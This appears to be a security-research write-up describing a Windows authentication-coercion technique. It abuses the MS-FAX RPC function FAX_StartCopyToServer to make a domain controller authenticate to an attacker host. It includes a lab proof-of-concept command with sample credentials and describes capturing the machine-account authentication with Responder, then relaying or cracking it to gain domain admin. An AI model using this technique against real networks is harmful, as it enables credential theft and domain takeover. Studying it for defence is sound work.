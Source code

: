 # MS-FAX - Remote call to FAX_StartCopyToServer (opnum 68)

## Summary

 - **Protocol**: [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4)

 - **Protocol UUID**: 6099fc12-3eff-11d0-abd0-00c04fd91a4e

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\SHAREDFAX`

 - **Function name**: [`FAX_StartCopyToServer`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/d4fdc04e-6594-4563-9700-d4cc645b4335)

 - **Function operation number**: `68`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\SHAREDFAX` and bind to the desired [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol (with uuid `6099fc12-3eff-11d0-abd0-00c04fd91a4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\SHAREDFAX` This pipe is connected to the protocol [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) and allows to call RPC functions of this protocol. We will then call the remote [`FAX_StartCopyToServer`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/d4fdc04e-6594-4563-9700-d4cc645b4335) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
FAX_StartCopyToServer('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t FAX_StartCopyToServer(
   [in] handle_t hFaxHandle,
   [in, string, ref] LPCWSTR lpcwstrFileExt,
   [in, out, string, ref] LPWSTR lpwstrServerFileName,
   [out, ref] PRPC_FAX_COPY_HANDLE lpHandle
 );
```

## References

 - Documentation of protocol [MS-FAX]: Fax Server and Client Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4

 - Documentation of function `FAX_StartCopyToServer`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/d4fdc04e-6594-4563-9700-d4cc645b4335